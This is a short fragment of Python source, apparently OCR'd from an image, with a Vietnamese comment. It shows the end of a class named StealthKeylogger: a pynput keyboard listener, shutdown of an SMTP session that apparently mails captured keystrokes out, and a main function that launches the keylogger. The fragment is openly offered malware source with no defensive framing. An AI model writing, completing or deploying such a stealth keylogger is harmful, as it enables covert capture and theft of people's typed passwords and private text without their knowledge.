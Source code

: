         # Khởi động listener
        try:
            with Listener(on_press=self.on_key_press) as listener:
                listener.join()
        except Exception as e:
            print(f"Error: {e}")
        finally:
            STOP_EVENT.set()
            if self.smtp_session:
                self.smtp_session.quit()
            print("Keylogger stopped")

def main():
    keylogger = StealthKeylogger()
    keylogger.start()

if __name__ == "__main__":
    main()